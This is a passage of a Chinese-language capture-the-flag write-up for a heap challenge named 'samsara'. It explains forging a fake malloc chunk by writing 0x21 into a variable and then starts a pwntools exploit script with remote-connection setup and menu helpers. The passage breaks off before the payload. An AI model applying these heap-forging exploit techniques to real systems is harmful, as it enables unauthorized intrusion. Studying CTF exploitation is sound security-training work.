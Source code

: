输入4修改`v9`的值为`0x21`即可伪造chunk，不伪造chunk的话，`malloc`会报错

```
chunk+0:  v9-8:xxx      v9: 0x21
chunk+8:  v10: 0x0      xxxxxxxx
```

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './samsara'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def capture():
    sla('choice > ','1')

def eat(index):
    sla('choice > ','2')
    sla('Index:\n',str(index))

def cook(index, data):
    sla('choice > ','3')
```